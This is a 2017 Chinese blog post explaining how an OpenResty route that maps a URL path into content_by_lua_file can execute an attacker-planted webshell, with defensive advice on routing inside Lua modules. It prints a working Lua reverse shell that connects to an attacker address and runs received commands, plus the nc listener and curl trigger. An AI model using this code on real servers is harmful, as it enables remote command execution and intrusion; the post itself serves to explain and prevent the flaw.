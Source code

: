 ```yaml
---
layout:     post
title:      "OpenResty 中的安全隐患"
subtitle:   ""
date:       2017-06-05 00:00:00
author:     "qmsheng"
header-img: "img/post-bg-2015.jpg"
catalog:    true
tags:
    - Lua
    - OpenResty
---
```


在 OR 的官方 GitHub 中，介绍了这么一种简单的「路由」写法
```perl
# use nginx var in code path
# CAUTION: contents in nginx var must be carefully filtered,
# otherwise there'll be great security risk!
location ~ ^/app/([-_a-zA-Z0-9/]+) {
    set $path $1;
    content_by_lua_file /path/to/lua/app/root/$path.lua;
}
```

相信不少不同学也都使用了这种简便的方式。然而却忽略了春哥的警告：
> **CAUTION: contents in nginx var must be carefully filtered, otherwise there'll be great security risk!**

这里我来说下这个安全隐患是如何产生的。假如我们现在的路由结构是：
```
root/
├── fan.lua
├── follower.lua
└── user.lua
```

正常情况下我们请求 `/app/user` 就应该执行 `root/user.lua` 代码；`/app/follower` 就应该执行 `root/follower.lua` 代码。这是我们期待的结果。

但是假如你的服务器有文件上传漏洞或 SQL 注入漏洞，被攻击者利用进而植入了一个 `shell.lua` 的 webshell，那么现在我们的路由结构是：
> SQL 注入不仅仅可以拖库，也是可以写 shell 的(SELECT OUTFILE)

```
root/
├── fan.lua
├── follower.lua
├── user.lua
└── shell.lua
```

这时候去请求 `/app/shell`，就自然的去连接这个 webshell 了，这个 `shell.lua` 看起来是这个样子（反弹shell到攻击者的地址）：
```lua
local sock = ngx.socket.tcp()
local ok, err = sock:connect("192.168.3.5", "2333")
if not ok then return end

while true do
    local r,x = sock:receive()
    local f = assert(io.popen(r,"r"))
    local b = assert(f:read("*a"))
    sock:send(b)
end

f:close()
sock:close()
```

我先在我的攻击机上执行（准备接收反弹回来的shell）
```
nc -lvv 2333
```

开启另一个终端执行
```
curl http://victim/app/shell
```

回到 nc 查看权限：

![](/img/in-post/attacker.png)

接下来的就是去提权了。。。


要避免这个问题，就是要在匹配路径上做出更为严格的限制，但是这会导致nginx.conf可读性较差。

我的建议是路由还是直接放在 lua 里完成，这样我们的 handler() 可以获得更为安全的签名保护。反观今天的测试，其实本质上还是因为我们执行了不该信任的代码(没有签名)，最终导致系统沦陷。如果使用 lua 模块化(相当于签名)的路由方式，就可以避免这个问题（即使你拿到了上传或注入的漏洞，最多也就是拖个库，也不会拿到整个系统的权限）。

------

有人说，时间是把杀猪刀。这很公平。但是，即使哪天挨上了这把杀猪刀，也希望自己是头优雅的猪。

而此时，2017 已经过去 1/2
